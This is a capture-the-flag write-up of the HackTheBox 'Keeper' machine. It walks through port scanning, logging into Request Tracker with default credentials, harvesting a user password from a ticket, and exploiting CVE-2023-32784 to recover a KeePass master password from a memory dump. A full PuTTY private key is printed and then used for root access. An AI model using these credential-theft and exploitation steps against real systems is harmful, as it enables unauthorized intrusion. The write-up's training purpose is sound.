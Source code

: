```yaml
---
author: Nithissh S
pubDatetime: 2023-09-03T15:22:00Z
modDatetime: 2023-09-03T09:12:47.400Z
title: Keeper - HTB Writeup
slug: keeper-htb-writeup
featured: true
draft: false
tags:
  - Keepass
  - HackTheBox
description:
  Easy level HackTheBox platform lab machine running Linux OS, containing a standard password, password transmission using an open communication channel and its untimely change, exploiting a vulnerability in Keepass.
---
```


## Service Overview

The machine is assigned IP address 10.10.11.227, let's scan the ports with Nmap:

```SH
$ nmap -sV -sC -Pn -p1-65535 -oN 10.10.11.227 10.10.11.227
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Service

On port 80, we are immediately pointed to two domain names. We need to add **keeper.htb** and **tickets.keeper.htb** to **/etc/hosts:**

``` sh
10.10.11.227 keeper.htb tickets.keeper.htb
```

Request Tracker (RT 4.4.4.4+dfsg-2ubuntu1 (Debian)) is running on tickets.keeper.htb. After trying some password combinations without success, we finally get the `root:password` account.

The ticket reveals a problem with Keepass. Let's pay attention to the Danish usernames. In the user section http://tickets.keeper.htb/rt/Admin/Users/ we find the user `lnorgaard:Welcome2023!`.

```sh
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb 	Enabled
Comments about this user 
New user. Initial password set to Welcome2023!

14 	root 	Enoch Root 	root@localhost 	Enabled
```

### User Flag

Use them to access SSH.

```sh
$ ssh lnorgaard@10.10.11.227
Welcome2023!
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp RT30000.zip passcodes.kdbx user.txt
lnorgaard@keeper:~$ cat user.txt
faa16f84c4bd32e64845c9651522850b
lnorgaard@keeper:~$
```

## Privilege Escalation

In the user directory **/home/lnorgaard** we see the file **RT30000.zip**. In the Windows application crash ticket it was written that the memory dump was removed from the ticket for security reasons and placed in the home directory.

Let's download this file for local research:

```sh
$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: Welcome2023!
Inside the archive is a file with memory dump and Keepass base:

$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp

 extracting: passcodes.kdbx

$ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX

$ file KeePassDumpFull.dmp
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```


It looks like we're facing CVE-2023-32784. We can find almost the entire password from the memory dump.

```sh
$ git clone https://github.com/CMEPW/keepass-dump-masterkey
$ cd /opt/keepass-dump-masterkey
$ python3 poc.py /root/KeePassDumpFull.dmp
2023-09-08 17:50:46,382 [.] [main] Opened /root/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```


It looks like a passphrase, so we try a google search for med flode, given that the users are Danish. Apply the lowercase function to the passphrase and get rødgrød med fløde. Use this password to open passcodex.kdbx database.

In the Network category, find the Putty private key:

```sh
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

**Convert with puttygen (conversions => Export OpenSSH key):**

```sh
$ wget https://the.earth.li/~sgtatham/putty/0.76/putty-0.76.tar.gz
$ tar -xvf putty-0.76.tar.gz
$ cd putty-0.76/
$ ./configure
$ make
$ sudo cp puttygen /usr/bin/

$ putty-0.76/puttygen ssh-rsa.ppk -O private-openssh -o id_rsa
```


Let's connect with this key as root and get root flag:


```sh
$ ssh -i id_rsa root@10.10.11.227
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls
RT30000.zip  SQL  root.txt
root@keeper:~# cat root.txt
19ad20c7b763f30208fbb19e30eb7634
```